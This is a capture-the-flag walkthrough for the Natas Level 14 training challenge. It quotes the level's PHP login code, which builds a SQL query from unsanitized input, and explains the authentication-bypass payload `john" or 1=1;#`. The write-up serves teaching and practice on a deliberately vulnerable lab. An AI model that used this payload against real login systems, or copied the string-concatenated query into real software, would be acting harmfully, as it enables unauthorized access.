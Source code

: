 # Level 14
This level deals with  SQL Injection Vulnerability

## Quest
We are presented with a simple sign in form
![Level 14 Image](./images/Level14.png)

Backend code for the page is below, Lets comment it
```php
<?
if(array_key_exists("username", $_REQUEST)) {  // Checks if username parameter exists in request
    $link = mysql_connect('localhost', 'natas14', '<censored>'); // Connect to db
    mysql_select_db('natas14', $link);
    
    // A query is run based on user input, no sanitization performed. Bad Practise !!
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {  // if 'debug' parameter is set, output query
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If our query return any rows, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {  // Else, Access Denied
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

<br/>

## Solution
Before going into the solution, lets look at the request that is sent when we log in. (_captured in Burp_)
![Level 14 Solution](./images/Level14_solution.png)

Let look at below line from backend code:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

If we enter both username and password as `admin`, our resulting query becomes:
```sql
SELECT * from users where username="admin" and password = "admin";
```
If above query produces any output (rows), then we log in, otherwise we get access denied.

Now, to perform SQL injection we enter a basic <span id=green>payload -></span> `john" or 1=1;#`
.Our query becomes
```sql
SELECT * from users where username="john" or 1=1;#" and password="";
```
Above query is now reduced to
```sql
SELECT * from users where username="john" or 1=1;
```
`#` is a comment in mysql and anything after it is ignored.<br/>This will always produce an output as long as there are rows in `users` table because `1=1` is always true.

From Backend code:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If we found any table, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    }
```
As now our query will produce an output, password for next Level will be revealed.

Below see this in action, our request/response in Burp along with our payload. (_it has been URL encoded_)
![Level14.1_solution](./images/Level14.1_solution.png)

<br/><span id=green>We successfully performed SQL injection!</span>

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
